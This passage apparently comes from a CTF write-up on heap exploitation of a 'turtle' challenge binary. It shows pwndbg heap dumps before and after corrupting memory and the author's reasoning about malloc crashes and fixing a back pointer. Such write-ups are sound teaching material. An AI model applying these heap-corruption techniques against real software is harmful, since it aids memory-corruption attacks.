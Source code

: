 `malloc` breaks again, seg faulting. Here's the heap at that point:

```code
pwndbg> x /26gx 0xf788b0
0xf788b0:	0x00000000006014c0	0x0000000000000020
0xf788c0:	0x0000000000646557	0x0000000000f788c8
0xf788d0:	0x0000000000000020	0x00007f8f11889cb0
0xf788e0:	0x0000000000f788e0	0x0000000000000020
0xf788f0:	0x0000000000000000	0x0000000000f788f8
0xf78900:	0x0000000000000020	0x0000000000f788f0
0xf78910:	0x0000000000f78928	0x0000000000000020
0xf78920:	0x0000000000756855	0x0000000000f788b0
0xf78930:	0x0000000000000020	0x0000000000f78908
0xf78940:	0x0000000000f78940	0x0000000000000020
0xf78950:	0x0000000000f78938	0x0000000000f78958
0xf78960:	0x0000000000000020	0x0000000000f78950
0xf78970:	0x0000000000f78970	0x0000000000000021
```
Everything worked perfectly. The entries at `0xf788c0`, `0xf788d8`, `0xf788f0`, `0xf78908`, `f78920`, `f78908`, `f78950` and `f78960` are all data written by whatever's calling `malloc`. `f78920` gets overwritten by an "in use" bit so that it reads "Uhu" instead of "Thu", but that's okay. But I run out of space to use and seg fault anyway. It was a nice attempt, though: I squeezed eight writes out of those 200 bytes, not too shabby. It looks like the code calling `malloc` was setting up a singly linked list ending in `NULL`, and the list was just too long for me to effectively use this technique.

At this point, I realized that the back pointer at the turtle heap address + 0x78 is always the turtle heap address + 0x2c980, and that I had made a math mistake...

## Fixing the heap corruption

Next I went ahead and wrote the pointer to the turtle heap address + 0x2c980 into the turtle heap address + 0x78. Before the write I had:

```code
pwndbg> x /26xg 0x1f0a8b0
0x1f0a8b0:	0x00000000006014c0	0x0000000000000021
0x1f0a8c0:	0x0000000001f14640	0x0000000000000000
0x1f0a8d0:	0x000000150000000c	0x0000000000000021
0x1f0a8e0:	0x0000000001f3f870	0x0000000001f06790
0x1f0a8f0:	0x0000000000000020	0x0000000000000020
0x1f0a900:	0x0000000001f042a0	0x0000000000000000
0x1f0a910:	0x0000001d0000000c	0x0000000000000021
0x1f0a920:	0x0000000001f44660	0x0000000001f37230
0x1f0a930:	0x0000000000000020	0x0000000000000020
0x1f0a940:	0x0000000001f14650	0x0000000000000000
0x1f0a950:	0x0000001800000010	0x0000000000000021
0x1f0a960:	0x0000000001f233e0	0x0000000000000000
0x1f0a970:	0x0000000000000000	0x0000000000000021
```

which was replaced with:
```code
pwndbg> x /26xg 0x1f0a8b0
0x1f0a8b0:	0x00000000006014c0	0x0000000000000021
0x1f0a8c0:	0x0000000000000000	0x0000000000000000
0x1f0a8d0:	0x000000150000000c	0x0000000000000021
0x1f0a8e0:	0x0000000001f0a910	0x0000000001f37230
0x1f0a8f0:	0x0000000000000020	0x0000000000000021
0x1f0a900:	0x0000000000000000	0x0000000000000000
0x1f0a910:	0x0000001d0000000c	0x0000000000000021
0x1f0a920:	0x0000000000000000	0x0000000001f0a8d0
0x1f0a930:	0x0000000000000020	0x0000000000000021
0x1f0a940:	0x0000000000000000	0x0000000000000000
0x1f0a950:	0x0000001800000010	0x0000000000000021
0x1f0a960:	0x0000000000000000	0x0000000000000000
```